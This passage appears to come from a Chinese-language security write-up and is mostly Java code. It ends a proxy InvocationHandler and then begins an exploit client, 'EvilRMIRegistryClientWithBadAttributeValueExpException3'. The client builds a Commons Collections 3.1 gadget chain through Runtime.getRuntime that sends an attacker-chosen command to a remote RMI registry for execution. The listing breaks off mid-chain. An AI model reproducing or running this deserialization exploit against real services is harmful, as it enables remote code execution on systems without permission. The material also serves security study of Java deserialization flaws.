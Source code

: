 ```java

    /*
     * This method will be invoked on an invocation handler when a method
     * is invoked on a proxy instance that it is associated with.
     */
    @Override
    public Object invoke ( Object proxy, Method method, Object[] args ) throws Throwable
    {
        /*
         * 转发至目标对象
         */
        Object  obj = method.invoke( realobj, args );
        return( obj );
    }
}
```

6) EvilRMIRegistryClientWithBadAttributeValueExpException3.java

从RMI架构上讲，这是RMI动态端口。

```java
/*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar:." EvilRMIRegistryClientWithBadAttributeValueExpException3.java
 */
import java.io.*;
import java.util.*;
import java.lang.reflect.*;
import java.rmi.Remote;
import java.rmi.registry.*;
import javax.management.BadAttributeValueExpException;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

/*
 * 从EvilRMIRegistryClientWithBadAttributeValueExpException.java修改而来
 */
public class EvilRMIRegistryClientWithBadAttributeValueExpException3
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String          addr        = argv[0];
        int             port        = Integer.parseInt( argv[1] );
        String          cmd         = argv[2];
        Transformer[]   tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
```